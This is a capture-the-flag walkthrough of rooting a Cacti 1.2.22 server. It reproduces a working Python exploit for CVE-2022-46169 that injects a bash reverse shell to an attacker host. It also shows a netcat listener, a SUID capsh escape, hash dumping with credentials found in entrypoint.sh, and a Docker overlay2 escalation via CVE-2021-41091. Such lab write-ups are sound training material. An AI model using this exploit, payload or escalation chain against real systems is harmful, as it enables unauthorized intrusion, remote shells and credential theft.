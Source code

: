 ```
Nmap scan report for 10.10.11.211
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-favicon: Unknown favicon MD5: 4F12CCCD3C42A4A478F067337FE92794
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


# WebApp

In home page there's a login ..

reveals this
Version 1.2.22 | (c) 2004-2023 - The Cacti Group

which is affected to CVE-2022-46169

on Google found a promising [exploit](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22)


```py
import requests, optparse, sys
import urllib

def get_arguments():
    parser= optparse.OptionParser()
    parser.add_option('-u', '--url', dest='url_target', help='The url target')
    parser.add_option('', '--LHOST', dest='lhost', help='Your ip')
    parser.add_option('', '--LPORT', dest='lport', help='The listening port')
    (options, arguments) = parser.parse_args()
    if not options.url_target:
        parser.error('[*] Pls indicate the target URL, example: -u http://10.10.10.10')
    if not options.lhost:
        parser.error('[*] Pls indicate your ip, example: --LHOST=10.10.10.10')
    if not options.lport:
        parser.error('[*] Pls indicate the listening port for the reverse shell, example: --LPORT=443')
    return options

def checkVuln():
    r = requests.get(Vuln_url, headers=headers)
    return (r.text != "FATAL: You are not authorized to use this service" and r.status_code != 403)

def bruteForcing():
    for n in range(1,5):
        for n2 in range(1,10):
            id_vulnUrl = f"{Vuln_url}?action=polldata&poller_id=1&host_id={n}&local_data_ids[]={n2}"
            r = requests.get(id_vulnUrl, headers=headers)
            if r.text != "[]":
                RDname = r.json()[0]["rrd_name"]
                if RDname == "polling_time" or RDname == "uptime":
                    print("Bruteforce Success!!")
                    return True, n, n2
    return False, 1, 1

def Reverse_shell(payload, host_id, data_ids):
    PayloadEncoded = urllib.parse.quote(payload)
    InjectRequest = f"{Vuln_url}?action=polldata&poller_id=;{PayloadEncoded}&host_id={host_id}&local_data_ids[]={data_ids}"
    r = requests.get(InjectRequest, headers=headers)


if __name__ == '__main__':
    options = get_arguments()
    Vuln_url = options.url_target + '/remote_agent.php'
    headers = {"X-Forwarded-For": "127.0.0.1"}
    print('Checking...')
    if checkVuln():
        print("The target is vulnerable. Exploiting...")
        print("Bruteforcing the host_id and local_data_ids")
        is_vuln, host_id, data_ids = bruteForcing()
        myip = options.lhost
        myport = options.lport
        payload = f"bash -c 'bash -i >& /dev/tcp/{myip}/{myport} 0>&1'"
        if is_vuln:
            Reverse_shell(payload, host_id, data_ids)
        else:
            print("The Bruteforce Failled...")

    else:
        print("The target is not vulnerable")
        sys.exit(1)


```



```bash
python3 CVE-2022-46169.py  -u http://10.10.11.211 --LHOST=IP --LPORT=443
```


## Spawn as www-data


```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.216.153] 36828
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$
```

## Container root

```bash
find / -perm -4000 2>/dev/null

```

finds an interesting suid 


so if `/sbin//capsh --gid=0 --uid=0 --` we are root



also found a /entrypoint.sh which is a SUID



```bash
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"

```


so if we connect in msyql with this command we can exfiltrate username and passwords 




```
mysql --host=db --user=root --password=root cacti -e "select * from user_auth;"

```


found 2 hashes;


and 2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C is cracked 


## SSH 


`ssh marcus@10.10.11.211` 

we are marcus now and i find with linpeas a cool command which is findmnt ! it reveals all path of the container and i see this

```
├─/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
│                                     overlay     overlay     rw,relatime,lowerdir=/var/lib/docker/overlay2/l/756FTPFO4AE7HBWVGI5TXU76FU:/var/lib/docker/overlay2/l/XKE4ZK5GJUTHXKVYS4MQMJ3NO
├─/var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
│                                     shm         tmpfs       rw,nosuid,nodev,noexec,relatime,size=65536k
├─/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
│                                     overlay     overlay     rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77R4WYM6X4BLW7GXAJOAA4SJ:/var/lib/docker/overlay2/l/Z4RNRWTZKMXNQJVSRJE4P2JYH
└─/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
                                      shm         tmpfs       rw,nosuid,nodev,noexec,relatime,size=65536k

```


in overlay2 i found this article https://github.com/UncleJ4ck/CVE-2021-41091

This exploit offers an in-depth look at the CVE-2021-41091 security vulnerability and provides a step-by-step guide on how to utilize the exploit script to achieve privilege escalation on a host.

#### Vuln 

CVE-2021-41091 is a flaw in Moby (Docker Engine) that allows unprivileged Linux users to traverse and execute programs within the data directory (usually located at /var/lib/docker) due to improperly restricted permissions. This vulnerability is present when containers contain executable programs with extended permissions, such as setuid. Unprivileged Linux users can then discover and execute those programs, as well as modify files if the UID of the user on the host matches the file owner or group inside the container.




#### Overlay


The overlay filesystem is a critical component in exploiting this vulnerability. Docker's overlay filesystem enables the container's file system to be layered on top of the host's file system, thus allowing the host system to access and manipulate the files within the container. In the case of CVE-2021-41091, the overly permissive directory permissions in /var/lib/docker/overlay2 enable unprivileged users to access and execute programs within the containers, leading to a potential privilege escalation attack. Exploitation Steps

- Connect to the Docker container hosted on your machine and obtain root access.

- Inside the container, set the setuid bit on /bin/bash with the following command: chmod u+s /bin/bash

- On the host system, run the provided exploit script (poc.sh) by cloning the repository and executing the script as follows:

```bash
git clone https://github.com/UncleJ4ck/CVE-2021-41091
cd CVE-2021-41091
chmod +x ./poc.sh
./poc.sh
```

The script will prompt you to confirm if you correctly set the setuid bit on /bin/bash in the Docker container. If the answer is "yes," the script will check if the host is vulnerable and iterate over the available overlay2 filesystems. If the system is indeed vulnerable, the script will attempt to gain root access by spawning a shell in the vulnerable path (the filesystem of the Docker container where you executed the setuid command on /bin/bash).



so connect once again in the container trough the CVE-2022-46169 then root the container and modify /bin/bash in a suid

then 

go on `/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged`

and then `cd bash`

`./bash -p`


and we are ROOT